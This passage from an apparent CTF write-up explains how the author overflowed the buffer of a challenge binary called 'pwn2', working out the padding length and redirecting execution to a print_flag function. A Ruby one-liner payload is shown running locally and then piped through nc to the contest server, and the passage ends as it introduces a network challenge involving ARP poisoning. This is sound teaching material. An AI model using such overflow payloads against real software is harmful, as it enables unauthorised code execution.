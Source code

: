 This certainly looks positive; the `eip` is set to some sequential bytes, which
means we're definitely on the right track. A quick look at [asciitable](https://www.asciitable.com/)
tells us the bytes 57-5a (remember, endianness!) are letters W to Z. Since I had
to repeat the sequential bytes 3 times to trigger the segfault (I did this while
you weren't looking), we know where in the input we need to manipulate.
The amount of characters before the final W-Z is 241.
Also, while you weren't looking I went ahead and made a local `flag.txt` file,
so that when we hit the `print_flag` function, we don't just error out.

It actually took a little trial-and-error to get the exact amount of padding
before the (reversed) address to the `print_flag` function, but I got there in
the end.

```
-> % ruby -e '(243).times{print "a"};print "\x4b\x85\x04\x08\n"' | ./pwn2
I just love repeating what other people say!
I bet I can repeat anything you tell me!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaK�
This function has been deprecated
flag{s3kritstestflag}

[1]    32584 done                ruby -e '(243).times{print "a"};print "\x4b\x85\x04\x08\n"' |
       32585 segmentation fault  ./pwn2
```

Awesome! Now let's try on the live version and see if we can get ourselves a flag.

```
-> % ruby -e '(243).times{print "a"};print "\x4b\x85\x04\x08\n"' | nc pwn.ctf.tamu.edu 4322

I just love repeating what other people say!
I bet I can repeat anything you tell me!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaK�
This function has been deprecated
gigem{3ch035_0f_7h3_p4s7}
```

Nice!

### Stop and listen (Network exploit)

By far my favourite challenges during this CTF were the network exploit
challenges. The way they were set up, you had to connect to a network using
OpenVPN, and do various tasks involving packet capture, MITM and ARP poisoning.
Given my background in computer networks, I found this all very good fun.

Anyway, onto the first challenge.

> Sometimes what we are looking for is right in front of us if we just take a moment to stop and listen.
